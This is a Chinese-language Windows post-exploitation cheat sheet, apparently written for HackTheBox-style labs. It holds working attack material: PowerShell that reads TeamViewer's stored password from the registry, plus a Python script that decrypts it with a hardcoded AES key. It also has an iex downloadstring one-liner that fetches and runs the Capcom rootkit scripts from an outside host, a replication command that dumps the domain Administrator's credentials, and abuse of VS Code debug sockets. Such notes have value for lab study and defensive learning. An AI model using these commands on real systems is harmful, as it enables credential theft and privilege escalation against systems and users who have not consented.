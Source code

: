 # Windows

##### TeamViewer Version7 凭据泄露
```powershell
cd HKLM:\software\wow6432node\teamviewer\version7
get-itemproperty -path .
(get-itemproperty -path .).SecurityPasswordAES
```
解密
```python
#!/usr/bin/env python3 

from Crypto.Cipher import AES 

key = b"\x06\x02\x00\x00\x00\xa4\x00\x00\x52\x53\x41\x31\x00\x04\x00\x00" 
iv = b"\x01\x00\x01\x00\x67\x24\x4F\x43\x6E\x67\x62\xF2\x5E\xA8\xD7\x04" 
ciphertext = bytes([255, 155, 28, 115, 214, 107, 206, 49, 172, 65, 62, 174, 19, 27, 70, 79, 88, 47, 108, 226, 209, 225, 243, 218, 126, 141, 55, 107, 38, 57, 78, 91]) 

aes = AES.new(key, AES.MODE_CBC, IV=iv) 
password = aes.decrypt(ciphertext).decode("utf-16").rstrip("\x00") 

print(f"[+] Found password: {password}")
```

#####  `Capcom` （Capcom.sys）Exploit
https://github.com/FuzzySecurity/Capcom-Rootkit
git 库后进入 , 把所有.ps1文件集合成 capcom-all 上传到靶机
```bash
find . -name "*.ps1" -exec cat {} \; -exec echo \; > capcom-all
```
调用
```powershell
PS C:\Windows\system32> iex(new-object net.webclient).downloadstring('http://10.10.14.29/capcom-all')
PS C:\Windows\system32> capcom-elevatepid
```

##### `Get-bADpasswords` Github project 读取域管理员密码
https://github.com/improsec/Get-bADpasswords
```powershell
Get-ADReplAccount -SamAccountName "Administrator" -Server windcorp.htb
```

##### VS Code Debug 滥用
https://github.com/taviso/cefdebug
```powershell
*Evil-WinRM* PS C:\Users\alcibiades\desktop> .\cefdebug.exe

cefdebug.exe : [2024/03/06 18:39:10:2865] U: There are 3 tcp sockets in state listen.
[2024/03/06 18:39:30:2991] U: There were 1 servers that appear to be CEF debuggers.
[2024/03/06 18:39:30:2991] U: ws://127.0.0.1:34421/81806651-e223-468d-9818-fa524c9f5868
```
